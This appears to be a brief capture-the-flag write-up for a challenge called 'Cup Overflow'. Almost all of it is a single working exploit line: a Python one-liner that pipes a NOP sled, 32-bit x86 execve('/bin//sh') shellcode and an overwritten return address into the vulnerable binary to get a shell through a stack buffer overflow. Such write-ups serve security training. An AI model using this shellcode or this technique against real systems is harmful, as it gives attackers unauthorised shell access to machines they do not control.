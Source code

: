 # Cup Overflow

### Solution

Buffer overflow with executable stack

```
python -c 'print "\x90"*141 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x08\xb0\x04\x08"' | cup_overflow
```